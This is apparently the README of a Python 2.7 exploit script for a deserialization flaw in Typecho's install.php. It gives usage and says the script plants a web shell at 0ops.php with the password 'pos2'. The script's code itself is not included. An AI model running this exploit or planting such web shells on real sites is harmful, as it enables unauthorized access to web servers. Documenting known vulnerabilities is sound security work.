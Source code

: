 # Typecho Anti serialization vulnerability

intsall.php is vulnerable

# Requirement
```
Python 2.7
```

# Usage
```
Usage:  python typecho_exp.py [vulnerable url]
	 	
	vulnerable url  www.example.com/install.php

python typecho_exp.py www.example.com/install.php

the evil page: www.example.com/0ops.php
password: pos2
```

# Credit

Author: CarlStar

